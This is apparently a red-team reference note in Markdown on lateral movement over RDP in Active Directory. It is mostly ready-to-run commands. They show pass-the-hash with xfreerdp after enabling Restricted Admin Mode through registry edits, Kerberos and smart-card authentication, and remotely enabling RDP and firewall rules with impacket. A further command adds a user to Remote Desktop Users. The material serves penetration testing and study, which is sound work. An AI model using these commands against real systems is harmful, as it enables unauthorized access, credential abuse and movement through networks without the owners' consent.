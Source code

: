 ```yaml
---
title: RDP Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/rdp]].

Connect over RDP.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:john.doe@corp.local /p:'passw0rd' /v:srv01.corp.local
    ~~~

=== "builtin"
    ~~~ bat
    mstsc.exe /v:srv01.corp.local
    ~~~

> **Note:** RDP works over Chisels SOCKS proxy, but not over Sliver.

# Pass the Hash

[[notes/ad/pass-the-hash]] to RDP does not work by default because RDP requires interactive logon.
However it is possible to switch RDP to network logon by enabling *Restricted Admin Mode*.
Unfortunately this introduces the infamous [[notes/ad/double-hop-problem]].
It can be configured by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` to `0`.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin -Value 0
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ~~~

Authenticate with a NT hash.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:jdoe@corp.local /pth:$nthash /v:srv01.corp.local
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\\srv01.corp.local\HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
    ~~~

# Kerberos Authentication

Authenticate over Kerberos.

=== "[[notes/tools/aardwolfgui]]"
    ~~~ bash
    aardpclient 'rdp+kerberos-password://corp\jdoe:passw0rd@srv01.corp.local/?dc=dc01.corp.local'
    ~~~

Kerberos support in `xfreerdp` and `rdesktop` seems to be incomplete.
`crackmapexec` should support it, but currently throws an exception.
`aardwolf` does support it, but doesn't implement dynamic resolution and shared folders yet.

[[notes/ad/pass-the-ticket]] to RDP works only if *Remote Credential Guard* is enabled, because otherwise it requires an interactive logon.

References:

- [Abusing RDPs Remote Credential Guard with Rubeus PTT](http://web.archive.org/web/20230216004623/https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

# Certificated-based Authentication

a) With PKINIT ([source](https://mobile.twitter.com/an0n_r0/status/1560699394365673472))

- install `pcsd`
- install [vpcd](https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html) as virtual smartcard reader
- install [OpenSC](https://github.com/OpenSC/OpenSC/wiki/Smart-Card-Simulation#simulating-piv) as virtual smartcard
- upload your certificate into the virtual smartcard with [yubico-piv-tool](https://developers.yubico.com/yubico-piv-tool/)
- run `xfreerdp /smartcard`

b) [[notes/ad/unpac-the-hash]]

Maybe you need to disable the smart card requirement first by setting the [[notes/windows/registry]] key `HKLM\Software\Microsoft\Windows\CurrentVersion\policies\System\scforceoption` to `0`.

# Enable RDP

Enable RDP by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections` to `0` and open the firewall.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections -vt REG_DWORD -vd 0
    impacket-wmiexec -k -no-pass -nooutput srv01.corp.local 'netsh advfirewall firewall set rule group="remote desktop" new enable=yes'
    ~~~

=== "PowerShell"
    ~~~ powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name fDenyTSConnections -Value 0
    Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'
    Get-Service termservice
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
    sc.exe query termservice
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name fDenyTSConnections
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
    ~~~

Allow an unprivileged user to login over RDP.

~~~ bat
net.exe localgroup "Remote Desktop Users" jdoe /add
~~~
